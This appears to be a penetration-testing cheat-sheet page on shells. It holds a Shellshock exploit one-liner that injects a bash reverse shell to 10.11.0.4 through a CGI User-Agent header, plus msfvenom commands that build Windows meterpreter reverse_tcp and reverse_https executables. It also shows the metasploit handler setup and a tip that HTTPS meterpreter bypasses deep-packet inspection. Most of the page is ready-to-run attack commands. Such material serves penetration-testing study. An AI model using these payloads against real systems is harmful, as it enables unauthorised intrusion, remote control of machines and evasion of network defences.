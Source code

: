 # Shells

## Shell Shocked

```text
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/10.11.0.4/443 0>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

## Resources

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Msfvenom

There is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.

### Windows

#### Meterpreter

**Standard meterpreter**

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```text
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```
